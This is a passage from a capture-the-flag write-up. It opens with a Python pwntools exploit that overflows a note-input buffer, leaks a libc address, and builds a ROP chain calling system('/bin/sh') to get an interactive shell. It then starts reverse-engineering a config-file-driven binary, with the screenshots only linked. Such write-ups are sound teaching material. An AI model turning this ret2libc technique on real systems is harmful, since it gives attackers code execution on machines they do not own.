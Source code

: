 ```python

payload = payload + b"A"* (0xd8 - len(payload)) + p64(pop_rdi_ret)
io.sendlineafter(b"Enter Note Below", payload)

io.recvline()
leak = u64(io.recvline().strip().ljust(8,b"\x00"))
log.info("Leak: " + hex(leak))

libc.address = leak - 0x61c90
log.info("Libc base: " + hex(libc.address))

rop = ROP(libc)
binsh = next(libc.search(b"/bin/sh\x00"))

payload = p64(pop_rdi_ret) + p64(binsh) + p64(ret) + p64(libc.sym.system)
payload = b"A"*0xd8 + payload

io.sendlineafter(b"Enter Note Below", payload)

io.interactive()
```

![Untitled](/CTF/interruptlabsctf-13.png)

![Untitled](/CTF/interruptlabsctf-14.png).jpg)

## User Input

![Untitled](/CTF/interruptlabsctf-15.png)

![Untitled](/CTF/interruptlabsctf-16.png)

Before start **reversing** the binary, let’s play a little with it.

![Untitled](/CTF/interruptlabsctf-17.png)

If executed the binary **asks for** **config file** as argument, so I crafted a config file with **random values** to see the binary **behaviour**.

![Untitled](/CTF/interruptlabsctf-18.png)

![Untitled](/CTF/interruptlabsctf-19.png)

Nothing useful from here, so **let’s dive into reversing** to get a better overview.

![Untitled](/CTF/interruptlabsctf-20.png)

The flow of the `main` function starts by checking whether **enough arguments** are provided or if the **help option is included.** If there aren’t enough arguments or the help option is specified, a **help subroutine** is called.
